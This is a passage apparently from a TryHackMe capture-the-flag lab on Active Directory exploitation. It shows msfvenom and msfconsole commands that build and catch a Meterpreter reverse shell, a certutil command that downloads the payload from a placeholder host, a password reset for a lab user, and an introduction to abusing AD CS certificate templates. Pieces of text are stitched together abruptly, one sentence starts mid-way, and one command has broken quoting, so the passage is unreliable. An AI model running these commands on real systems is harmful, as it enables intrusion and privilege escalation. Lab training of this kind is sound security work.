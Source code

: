 Fortunately, Meterpreter provides us with a migrate feature, and since we are running as SYSTEM, we should be able to migrate to any process. You have remote code execution on THMSERVER1, use this to get a Meterpreter shell. If you need a recap on using Meterpreter and Metasploit, [here is a module on its use.](https://tryhackme.com/module/metasploit) However for a quick rundown, you can use the following command to generate a PowerShell meterpreter payload:

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=exploitad LPORT=6969 -f psh -0 shell.ps1

You can then also use the following to create the associated listener in the msfconsole:
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST exploitad; set LPORT "listening port'; exploit"

Then host the meterpreter shell using a python webserver, and copy it using a command such as:
```
certutil.exe -urlcache -split -f http://MACHINE_IP/shell.ps1
```


Once you have a meterpreter shell, you can continue. The first step is to see if the users have any running processes on this machine:

Terminal  

```shell-session
meterpreter\>ps | grep "explorer"
```


1. Reset the password of the trevor.local user using the following command: `net user trevor.local <chosen password>`



 in. Administrators of AD CS can create several templates that can allow any user with the relevant permissions to request a certificate themselves. These templates have parameters that say which user can request the certificate and what is required. SpecterOps found that specific combinations of these parameters can be incredibly toxic and abused for privilege escalation and persistent access.

Before we dive deeper into certificate abuse, some terminology:

- PKI - Public Key Infrastructure is a system that manages certificates and public key encryption  
    
- AD CS - Active Directory Certificate Services is Microsoft's PKI implementation which usually runs on domain controllers
- CA - Certificate Authority is a PKI that issues certificates  
    
- Certificate Template - a collection of settings and policies that defines how and when a certificate may be issued by a CA
- CSR - Certificate Signing Request is a message sent to a CA to request a signed certificate
- EKU - Extended/Enhanced Key Usage are object identifiers that define how a generated certificate may be used


In order to find vulnerable templates, we will use Window's built-in tool certutil. Using our RDP access on THMSERVER2, we can run the following Powershell script to enumerate certificates:

Powershell  

```shell-session
C:\>certutil -Template -v > templates.txt
```
